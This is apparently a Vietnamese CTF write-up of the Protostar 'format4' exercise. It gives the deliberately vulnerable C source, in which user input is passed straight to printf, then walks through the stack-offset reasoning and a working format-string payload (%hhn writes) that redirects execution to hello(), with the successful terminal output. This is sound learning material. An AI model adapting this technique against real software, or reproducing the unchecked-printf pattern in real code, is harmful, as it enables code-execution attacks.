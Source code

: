# **format4**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Vulnerability
printf()

## Exploit
- Ghi đè lên return address của hàm printf() để chuyển hướng tới hàm hello().
=> Cần:
  - Tìm địa chỉ hàm hello()
  - Tìm địa chỉ ô stack chứa return address của printf()
  - Sử dụng kĩ thuật ghi đè bằng %n như những bài format trước để ghi đè địa chỉ hàm hello vào return address của printf()
  
=> Giải:
  - Địa chỉ hàm hello(): 0x080484b4
  - Địa chỉ ô stack chứa return address của printf():
    - Dễ dàng tìm được khi chạy debug bằng gdb. Tuy nhiên khi chạy thực tế thì stack bị xê dịch.
    - Đầu hàm vuln() có push ebp; Hiệu của giá trị ebp này với địa chỉ ô return address là cố định.
    - Khi dùng gdb, ebp = 0xbffff788, return address ở ô 0xbffff55c. Khoảng cách là 0x22c.
    - Khi chạy thật ở ngoài, dùng '%134x' có thể quan sát được ebp này = 0xbffff7d8. Trừ đi 0x22c => địa chỉ ô return address = 0xbffff5ac
  - String-attack: dùng hhn để ghi đè từng byte
    ```
    python -c 'print "\xad\xf5\xff\xbf" + "\xac\xf5\xff\xbf" + "%124x%4$hhn" + "%48x%5$hhn"'
    ```
- Kết quả:
```
user@protostar:/opt/protostar/bin$ python -c 'print "\xad\xf5\xff\xbf" + "\xac\xf5\xff\xbf" + "%124x%4$hhn" + "%48x%5$hhn"' | ./format4
��������                                                                                                                         200                                        b7fd8420
code execution redirected! you win
user@protostar:/opt/protostar/bin$
```

# References
- Format String exploitation tutorial: https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf